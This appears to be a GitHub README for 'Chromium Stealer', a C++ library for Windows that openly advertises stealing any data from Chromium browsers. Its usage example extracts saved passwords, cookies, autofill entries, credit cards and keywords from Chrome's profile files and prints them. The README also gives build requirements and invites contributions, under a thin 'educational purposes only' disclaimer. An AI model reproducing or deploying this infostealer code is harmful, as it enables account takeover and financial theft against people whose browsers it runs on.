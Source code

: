 # 🟩 Chromium Stealer 🟩 <a href="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml"><img src="https://github.com/yurtrimu/chromium-stealer/actions/workflows/main.yml/badge.svg" alt="Working"></a>

## **A lightweight library-kind of project that can steal any kind of data from any chromium browsers.**

# Questions?
### - **I gladly answer your questions on the [discord server](https://discord.gg/QBhFd2aK4r).**

## Usage

```cpp
#include "chromiumstealer.hpp"

int main() {

    // Check operating system
	if (!utils::console::is_windows()) {
		printf("The operating system has to be Windows NT\n");
		exit(EXIT_FAILURE);
	}

    // Set console to utf8 output to evade any gibberish characters
	if (!utils::console::set_utf8()) {
		printf("Couldn't set console IO to utf8 encoding.\nConsole IO could show gibberish texts.\n");
	}

	// Path to any chromium browser's files
	std::string Local_State_Path = "Google\\Chrome\\User Data\\Local State";
	std::string Database_Path = "Google\\Chrome\\User Data\\Default";

    // Define the stealer
	ChromiumStealer Stealer(Local_State_Path, Database_Path);

    // Initialize the stealer
    stealer.initialize();

    // Get any data you want
	std::vector<ChromiumStealer::cookie_data> cookies_data = stealer.get_cookies();
	std::vector<ChromiumStealer::password_data> pass_data = stealer.get_password();
	std::vector<ChromiumStealer::autofill_data> auto_data = stealer.get_autofill();
	std::vector<ChromiumStealer::creditc_data> card_data = stealer.get_credit_card();
	std::vector<ChromiumStealer::keyword_data> key_data = stealer.get_keywords();
	std::vector<ChromiumStealer::status_data> status_data = stealer.get_status();

    // Print the data
    std::string passwords_result = stealer.print_passwords(pass_data);
	std::string cookies_result = stealer.print_cookies(cookies_data);
	std::string autofills_result = stealer.print_autofills(auto_data);
	std::string credit_cards_result = stealer.print_credit_cards(card_data);
	std::string keywords_result = stealer.print_keywords(key_data);
	std::string statuses_result = stealer.print_statuses(status_data);

	printf("\nPasswords Result: %s\n", passwords_result.c_str());
	printf("\nCookies Result: %s\n", cookies_result.c_str());
	printf("\nAutofills Result: %s\n", autofills_result.c_str());
	printf("\nCredit Cards Result: %s\n", credit_cards_result.c_str());
	printf("\nKeywords Result: %s\n", keywords_result.c_str());
	printf("\nStatuses Result: %s\n", statuses_result.c_str());
}
```

## Example.png

![alt text](https://github.com/yurtrimu/chromium-stealer/blob/main/example.png?raw=true)

## Operating System
- **Below Windows 7 - 🟦 Untested**
- **Windows 7 - 🟦 Untested**
- **Windows 10 - 🟩 Working**
- **Windows 11 - 🟦 Untested**
- **Mac OS - 🟥 Not Working**
- **Linux - 🟥 Not Working**

## Requirements

**You need to have the OpenSSL library installed and linked to your compiler.**

- You could download the OpenSSL library from [OpenSSL website](https://www.openssl.org/source/).

## Linker
- **libssl.lib**
- **libcrypto.lib**
- **crypt32.lib**


## Compiling

- **Build - 🟦 Untested**
- **Release - 🟩 Working**
- **C++17 or below - 🟥 Not Working**
- **C++20 - 🟩 Working**

## Contributing

**Pull requests are welcome.**

## Legal Disclaimer
🟥 **The content provided is for educational and informational purposes only.** 🟥
